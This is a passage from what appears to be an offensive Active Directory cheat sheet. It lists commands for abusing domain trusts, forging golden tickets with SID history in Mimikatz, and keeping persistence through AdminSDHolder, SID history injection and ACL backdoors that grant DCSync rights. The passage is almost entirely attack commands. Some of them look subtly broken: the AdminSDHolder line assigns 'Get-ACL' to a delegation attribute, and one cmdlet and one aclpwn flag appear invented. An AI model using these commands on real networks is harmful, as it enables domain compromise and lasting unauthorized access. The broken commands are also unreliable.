 
#### 12.2 Exploiting Inter-Trust Relationships 

- **ADExplorer**: Enumerate trust relationships and attack via SID History.
- **BloodHound**:
    
    ```powershell
    Invoke-BloodHound -CollectionMethod Trusts
    ```
    

#### 12.3 Abusing SID History 

- **Mimikatz**:
    
    ```powershell
    kerberos::golden /user:<username> /domain:<domain> /sid:<domain_SID>-500 /sids:<target_domain_SID>-519 /krbtgt:<NTLM_hash> /target:<target_domain> /rc4:<NTLM_hash>
    ```
    

# 13. Domain Persistence Techniques 

#### 13.1 Persistence via AdminSDHolder 

- **PowerView**:
    
    ```powershell
    Set-DomainObject -Identity "CN=AdminSDHolder,CN=System,DC=domain,DC=com" -Set @{msds-allowedtoactonbehalfofotheridentity=Get-ACL}
    ```
    

#### 13.2 Persistence via SID History 

- **Invoke-SIDHistoryInjection**:
    
    ```powershell
    Invoke-SIDHistoryInjection -UserName <target_user> -SIDHistory <SID_to_inject>
    ```
    

#### 13.3 Backdooring Accounts via ACLs 

- **PowerView**:
    
    ```powershell
    Add-DomainObjectAcl -TargetIdentity <TargetUser> -PrincipalIdentity <AttackerUser> -Rights DCSync
    ```
    

#### 13.4 ACL Abuse for Persistence 

- **Aclpwn.py**:
    
    ```bash
    aclpwn --domain <domain> --username <username> --password <password> --command-backdoor --target <target_user>
    ```